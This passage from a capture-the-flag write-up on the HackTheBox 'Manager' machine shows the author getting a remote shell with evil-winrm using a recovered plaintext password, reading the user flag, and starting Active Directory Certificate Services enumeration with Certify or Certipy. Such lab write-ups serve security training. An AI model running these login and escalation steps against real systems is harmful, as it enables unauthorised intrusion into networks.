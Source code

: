 
I’m able to connect and get a shell:

    
    
    oxdf@hacky$ evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Raven\Documents> 
    

And grab `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
    6e6a6b72************************
    

## Shell as administrator

### Enumeration

#### Filesystem

raven’s home directory is otherwise completely empty:

    
    
    *Evil-WinRM* PS C:\Users\Raven> ls -recurse .
    
        Directory: C:\Users\Raven
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        7/27/2023   8:24 AM                Desktop
    d-r---        7/27/2023   8:23 AM                Documents
    d-r---        9/15/2018  12:19 AM                Downloads
    d-r---        9/15/2018  12:19 AM                Favorites
    d-r---        9/15/2018  12:19 AM                Links
    d-r---        9/15/2018  12:19 AM                Music
    d-r---        9/15/2018  12:19 AM                Pictures
    d-----        9/15/2018  12:19 AM                Saved Games
    d-r---        9/15/2018  12:19 AM                Videos
    
        Directory: C:\Users\Raven\Desktop
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---        3/12/2024   9:21 PM             34 user.txt
    

There’s no other user directories, and the web directory doesn’t have anything
else interesting.

#### ADCS

With a Windows domain, the next thing to check used to be Bloodhound, but
lately it’s worth checking Advice Directory Certificate Services (ADCS) as
well, and that’s quick, so I’ll start there. This can be done by uploading
[Certify](https://github.com/GhostPack/Certify) or remotely with
[Certipy](https://github.com/ly4k/Certipy). I find Certipy easier.
